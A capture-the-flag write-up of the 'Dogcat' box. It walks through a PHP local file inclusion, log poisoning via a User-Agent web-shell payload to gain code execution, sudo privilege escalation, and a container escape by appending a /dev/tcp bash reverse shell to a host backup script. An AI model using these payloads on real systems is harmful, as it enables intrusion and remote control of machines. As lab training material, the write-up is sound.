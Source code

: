 # Dogcat

Dogcat is a medium-rated box which involves an LFI and poisoning the User-Agent to get RCE.

## Recon

As always, let's start out with a simple Nmap scan:
```
wiz@skua:~/ctf/thm/dogcat$ nmap -sC -sV -Pn --top-ports 1000 -o inital.nmap 10.10.94.19
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 13:30 CEST
Nmap scan report for 10.10.94.19
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

From this basic scan we can see that port 80 is open. While running a full portscan in the background, we can have a look at the website.

![dogcat landing page](./screenshots/dogcat-1.png)

The first thing I usually do is check if the site is running HTML, PHP, or something else. We can find this out by requesting the URL with either *index.html* or *index.php*. In this case, we can verify that it is a PHP page.

We have two options to choose from, "A dog" and "A Cat". Clicking on these gives us a random picture of a dog or a cat, depending on which you clicked. This in itself isn't necessarily interesting to us, but here we can see in the URL that the chosen option gets added sent as a GET parameter.

```HTTP
http://<ip>/?view=dog
```

In the context of a view, our first suspicion should be if the request is including another files response inside index.php. We can also assume that it appends a .php extension, as the original http request does not contain it.
```PHP
include $_GET['view'] . "php";
```
We can test this suspicion by requesting the File added in the view directly from the URL.
```HTTP
http://<ip>/dog.php
```
As suspected, it returns a picture on an otherwise blank page. From here we can try some LFI.

# LFI

Because at the moment we have to assume that the code appends .php to every request we make in the view, we can "only" get the source of the current pages. These files are *index.php*, *dog.php* and *cat.php*. Because these would all be interpreted when we include them, we have to convert them into some other format. We'll use the php filter functionality to convert the code into Base64. The site also prevents us from putting something in the view without the keywords "dog" or "cat", which is why we have to change our path accordingly:
```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index
```
This returns a base64 encoded string of the sourcecode of *index.php*. 

![dogcat base64 extraction](./screenshots/dogcat-2.png)

Decoding it results in this code:

```PHP
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Here we can see that our suspicions were partially correct, in that the other view gets included into the page. But the crucial part is that the user can set the extension in a GET request, which we previously did not know. This means we can now open other files than php by setting that parameter to nothing.

```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../../../../../../etc/passwd&ext=
```

This returns us another base64 decoded string, this time from /etc/passwd as verification that we can view other files:

![decoding /etc/passwd base64](./screenshots/dogcat-3.png)


# RCE

With this knowledge, we can possibly leverage our LFI into an RCE by adding PHP code in places where there shouldn't normally be any, as the include statement interprets it as PHP without needing the extension. We can try this here by adding some PHP code in the User-Agent of our request and including the webserver log. We can view the Webserver log via the same LFI.

![Viewing the Webserver log via LFI](./screenshots/dogcat-4.png)

Now it's just a question of adding a payload in the User-Agent. We'll just add a simple GET to system parameter for now, although you could also upload a complete shell at this point.

```HTTP
GET /?view=./dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.38.198
User-Agent: <?php system($_GET['wiz']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

From here we can simply make another request to the same URL with a command for the parameter we previously set...

![Executing commands via LFI](./screenshots/dogcat-5.png)

...and get RCE! I used the php oneliner from pentestmonkey, just remember to URLEncode before you send it off.

![RCE](./screenshots/dogcat-6.png)

From here you will find a flag.php, where the first flag is placed. The second flag will be one folder up, in /var/www.

# Privesc

Once we have the shell, we of course want to privesc. To start our enumeration, we do a simple sudo -l:

![privesc enumeration](./screenshots/dogcat-7.png)

We can see that we can execute */usr/bin/env* as sudo. A quick peek at GTFObins will show us a way to privesc.

![privesc](./screenshots/dogcat-8.png)

# Container Escape

Although we rooted the box, there still seems to be a fourth flag. By running linpeas we can find some unusual scripts in */opt/backups*.

![backups folder](./screenshots/dogcat-9.png)

Here we can see that we are actually inside a container. The container escape doesn't seem to be hard though, as this looks like a shared folder between the Host and the Container, where the Host runs this script to get a backup. We can simply append a bash reverse shell at the end of the file and escalate to the host machine.

`echo "bash -i >& /dev/tcp/10.9.19.202/6510 0>&1" >> backup.sh`

The fourth flag is in */root* of the Host.

![last flag](./screenshots/dogcat-10.png)